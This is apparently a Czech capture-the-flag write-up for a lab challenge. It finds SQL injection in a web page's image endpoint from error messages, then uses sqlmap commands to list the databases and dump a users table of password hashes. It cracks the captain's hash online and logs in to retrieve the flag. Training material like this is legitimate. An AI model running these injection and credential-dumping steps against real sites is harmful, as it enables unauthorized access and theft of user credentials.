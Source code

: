 # Navigation plan (3)

## Zadání

Ahoy, officer,

the chief officer was invited to a naval espresso by the captain and now they are both unfit for duty. The second officer is very busy and he has asked you to find out where are we heading according to the navigation plan.

May you have fair winds and following seas!

The navigation plan webpage is available at <http://navigation-plan.cns-jv.tcc>.

## Nápovědy (Hints)

1. Use VPN to get access to the webpage.
1. Details should contain the desired information.

## Řešení

K řešení této úlohy je potřeba připojení pomocí VPN z úlohy [VPN access](../01_VPN_access/README.md)

Po otevření stránky z odkazu v zadání se zobrazí stránka se seznamem cílů, ale po kliknutí na `Detail` se zobrazí chyba o neautorizovaném přístupu. V Horní části je možné přihlášení do systému, ale neznáme jméno/heslo.

Z logu komunikace je vidět například volání na <http://navigation-plan.cns-jv.tcc/image.png?type=data&t=targets&id=1>

Když zkusíme změnit `id` na 10, server vrátí chybu

`Warning: Trying to access array offset on value of type null in /var/www/html/image.php on line 12`

Když zkusíme změnit `targets` na `targets1`, server vrátí také chybu

`Fatal error: Uncaught mysqli_sql_exception: Table 'navigation.targets1' doesn't exist in /var/www/html/image.php:9 Stack trace: #0 /var/www/html/image.php(9): mysqli_query(Object(mysqli), 'SELECT data FRO...') #1 {main} thrown in /var/www/html/image.php on line 9`

Když zkusíme změnit `data` na `data1`, server vrátí také chybu

`Fatal error: Uncaught mysqli_sql_exception: Unknown column 'data1' in 'field list' in /var/www/html/image.php:9 Stack trace: #0 /var/www/html/image.php(9): mysqli_query(Object(mysqli), 'SELECT data1 FR...') #1 {main} thrown in /var/www/html/image.php on line 9`

Mohlo by se tedy jednat o chybu typu SQL injection. Pro získání dat použijeme program `sqlmap`.

Test zranitelnosti\
`sqlmap --batch -o -u "http://navigation-plan.cns-jv.tcc/image.png?t=targets&type=data&id=1"`

Úspěch. Tak vyčteme databáze\
`sqlmap --batch -o -u "http://navigation-plan.cns-jv.tcc/image.png?t=targets&type=data&id=1" --dbs`

```text
available databases [2]:
[*] information_schema
[*] navigation
```

Vyčteme jména tabulek z databáze `navigation`\
`sqlmap --batch -o -u "http://navigation-plan.cns-jv.tcc/image.png?t=targets&type=data&id=1" -D navigation --tables`

```text
Database: navigation
[3 tables]
+---------+
| files   |
| targets |
| users   |
+---------+
```

Vyčteme obsah tabulky users\
`sqlmap --batch -o -u "http://navigation-plan.cns-jv.tcc/image.png?t=targets&type=data&id=1" -D navigation -T users --dump`

`[07:16:10] [WARNING] unable to retrieve column names for table 'users' in database 'navigation'`

sqlmap neumí vyčíst jména sloupců. Tak zkusíme `username` a `password`\
`# sqlmap --batch -o -u "http://navigation-plan.cns-jv.tcc/image.png?t=targets&type=data&id=1" -D navigation -T users -C username,password --dump`

```text
Database: navigation
Table: users
[3 entries]
+----------+------------------------------------------------------------------------------+
| username | password                                                                     |
+----------+------------------------------------------------------------------------------+
| engeneer | 15e2b0d3c33891ebb0f1ef609ec419420c20e320ce94c65fbc8c3312448eb225 (123456789) |
| officer  | 6a4aed6869c8216e463054dcf7e320530b5dc5e05feae6d6d22a4311e3b22ceb             |
| captain  | 7de22a47a2123a21ef0e6db685da3f3b471f01a0b719ef5774d22fed684b2537             |
+----------+------------------------------------------------------------------------------+
```

sqlmap dekódoval heslo `123456789` pro účet `engeneer`. Přihlásit ale nejde

`This account is disabled! Enter another username.`

Na stránce <https://hashes.com/en/decrypt/hash> zkusíme dekódovat zbylá dvě hesla. Povedlo se dekódovat jen jedno

`7de22a47a2123a21ef0e6db685da3f3b471f01a0b719ef5774d22fed684b2537:$captainamerica$:SHA256`

Přihlášení na účet `captain / $captainamerica$` se už zdařilo. Postupným proklikáním detailů už snadno najdeme FLAG.

## Flag

`FLAG{fmIT-QkuR-FFUv-Zx44}`
